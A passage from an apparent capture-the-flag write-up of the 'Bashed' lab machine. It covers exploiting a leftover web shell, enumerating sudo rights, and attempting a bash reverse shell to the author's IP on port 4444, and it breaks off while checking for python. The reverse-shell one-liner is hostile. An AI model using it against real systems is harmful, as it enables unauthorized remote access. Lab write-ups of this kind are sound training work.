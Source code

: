 The developer's own pwn tool was left there for us to use. This is a fatal mistake. ***NOTE : CLEAN UP AFTER YOURSELF DURING DEVELOPMENT.*** This
type of thing is very common; leaving credentials, keys, or old scripts on a internet-facing applications / sites leaves your system more vulnerable.
That being said, this is great for us as a 'malicious' user. I can use the tool to actually execute shell code like the dev said. 
### User flag

We have shell as www-data, a low privileged user created by web servers on Ubuntu (e.g. apache).
      
![console](/assets/bashed-htb/console.png)

We have easily acquired the user flag.
From here, we can try to gain access to a more privileged user's account and/or root.

## Privilege Escalation

As we are now logged on to the system, I can find out which commands I can run. I ran `sudo -l` and got the response:

```
www-data@bashed
:/home/arrexel# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```
There was a user in the /home directory named scriptmanager. This message means we can run commands as this user. We should be able to spawn a
shell as this user, but we aren't on a terminal as we are running these commands from the web and via php. So I'll first do a reverse shell:

```bash
bash -c "bash -i >& /dev/tcp/10.10.14.13/4444 0>&1" # where 10.10.14.13 is my ip and 4444 is the port it'll connect to me through
```
This method did not work. I thought of doing a python reverse shell, so I checked if python was installed with `which python3`:
